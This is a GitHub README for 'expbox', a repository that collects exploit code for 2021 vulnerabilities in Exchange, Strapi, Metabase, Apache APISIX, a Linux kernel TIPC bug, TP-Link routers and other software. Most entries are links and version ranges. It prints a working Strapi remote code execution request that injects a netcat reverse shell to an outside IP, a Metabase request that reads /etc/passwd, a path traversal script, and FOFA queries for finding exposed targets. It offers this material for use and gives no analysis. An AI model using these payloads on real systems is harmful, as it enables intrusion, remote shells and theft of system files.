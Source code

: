 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution**
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzE5NzEwLCJleHAiOjE2MzI5MTE3MTB9.AfJr81dyxnmzlutCKArmf0kBgFCcDDhsk91IYNDpTFM' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'
```

**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

**[CVE-2021-32849 Gerapy clone background remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-32849.txt)**
```
Gerapy <= 0.9.6
```

**[CVE-2021-41653 TP-Link TL-WR840N remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41653.py)**
```
TL-WR840N(EU)_V5_171211 / 0.9.1 3.16 v0001.0 Build 171211 Rel.58800n

Fofa:

app="TP_LINK-TL-WR840N"
```
Ref: https://github.com/ohnonoyesyes/CVE-2021-41653


**[CVE-2021-41951 ResourceSpace reflective XSS](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41951%20ResourceSpace%20reflective%20XSS.md)**
```
<= 9.5
```

**[sqlmap RCE](https://github.com/0x0021h/expbox/blob/main/sqlmap_rce.html)**
![image](https://user-images.githubusercontent.com/92664048/144734569-957596a7-5c46-48ef-8eea-9b07b151b315.png)


### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
